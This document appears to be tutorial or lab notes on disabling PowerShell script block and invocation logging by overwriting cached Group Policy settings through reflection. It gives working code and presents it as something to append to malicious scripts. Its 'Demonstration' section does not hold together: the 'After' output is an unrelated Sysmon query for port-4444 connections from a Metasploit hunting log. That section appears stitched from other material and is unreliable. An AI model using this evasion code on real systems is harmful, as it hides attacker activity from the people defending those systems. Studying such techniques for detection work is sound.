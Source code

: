 # Group Policy Takeover: Evading PowerShell Logging

PowerShell module logging and script block logging can be enabled via Group Policy:  
**Administrative Templates → Windows Components → Windows PowerShell**.

Within a PowerShell session, system assemblies run in the same security context as the user. This allows an attacker with sufficient privileges to manipulate cached Group Policy settings using reflection.

## High-Level Steps

A group policy takeover involves three main steps:

1. **Obtain group policy settings from the utility cache.**
2. **Modify the provider setting (e.g., set to `0`).**
3. **Modify invocation or module definition as needed.**

Below is a breakdown of each step with example PowerShell code.

---

### 1. Obtain Group Policy Settings

Use reflection to access the `System.Management.Automation.Utils` type and retrieve the `cachedGroupPolicySettings` field:

```powershell
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
```

---

### 2. Modify Provider Settings

Change the desired provider settings to `0`. For example, to disable Script Block Logging (controls event ID 4104):

```powershell
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
```

To disable Script Block Invocation Logging (controls event ID 4103):

```powershell
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

---

### 3. Apply Changes in a Script

Combine the above steps in a PowerShell script. This technique can be appended to a malicious script to evade logging.  
**Note:** The script may require modifications for compatibility with PowerShell v5.1.

---

## Demonstration

To verify the effectiveness, compare event counts before and after running the script.

**Before:**

```powershell
PS C:\Users\Administrator\Desktop> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
0
PS C:\Users\Administrator\Desktop> whoami
Tryhackme\administrator
PS C:\Users\Administrator\Desktop> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
3
```

**After:**

```powershell
PS C:\Users\THM-Analyst> Get-WinEvent -Path C:\Users\THM-Analyst\Desktop\Scenarios\Practice\Hunting_Metasploit.evtx -FilterXPath '*/System/EventID=3 and */EventData/Data[@Name="DestinationPort"] and */EventData/Data=4444'

    ProviderName: Microsoft-Windows-Sysmon

TimeCreated                     Id LevelDisplayName Message
-----------                     -- ---------------- -------
1/5/2021 2:21:32 AM              3 Information      Network connection detected:...
```

In the first terminal, three events are generated when the PowerShell script runs. In the second terminal, after executing the script, no events are generated for subsequent commands.

---